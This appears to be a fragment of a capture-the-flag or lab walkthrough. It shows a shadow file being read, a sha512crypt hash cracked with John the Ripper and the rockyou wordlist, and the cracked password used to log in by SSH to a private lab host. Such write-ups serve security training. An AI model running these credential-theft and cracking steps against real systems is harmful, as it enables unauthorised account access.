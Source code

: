 ```shell
> cat shadow
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/a4f26b74-9050-4cfa-bc19-ac3d9dca3158)

```shell
echo "296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us. > user.hash
```
Crack the Hash
```shell
> john --wordlist=/usr/share/wordlists/rockyou.txt user.hash
> john --wordlist=/usr/share/wordlists/rockyou.txt user.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)     
1g 0:00:00:06 DONE (2023-10-20 04:32) 0.1560g/s 2675p/s 2675c/s 2675C/s felton..Hunter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/099ec0d4-40dc-45cf-bb0f-aed100f6a671)
```shell
password: server
```

SSH
```shell
> ssh 296640a3b825115a47b68fc44501c828@192.168.224.85
> ssh 296640a3b825115a47b68fc44501c828@192.168.224.85
The authenticity of host '192.168.224.85 (192.168.224.85)' can't be established.
ED25519 key fingerprint is SHA256:qzYkm7MeglkL3QtA6bU4nv7yc8jlb1x7fZ7ALPBohNQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.224.85' (ED25519) to the list of known hosts.
296640a3b825115a47b68fc44501c828@192.168.224.85's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
```
